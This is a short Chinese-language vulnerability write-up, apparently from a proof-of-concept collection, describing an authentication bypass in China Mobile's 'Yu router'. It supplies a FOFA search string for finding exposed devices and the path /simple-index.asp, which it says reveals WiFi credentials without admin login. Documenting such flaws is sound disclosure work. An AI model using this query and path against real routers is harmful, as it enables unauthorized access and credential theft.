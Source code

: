 # 中国移动-禹路由-simple-index.asp-越权访问漏洞

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](中国移动-禹路由-simple-index.asp-越权访问漏洞.assets/16273635719411352.jpg)

访问Url

```
/simple-index.asp
```

​	![image-20210618173314789](中国移动-禹路由-simple-index.asp-越权访问漏洞.assets/1627363572279796.jpg)

越过管理员验证获取Wifl账号密码等信息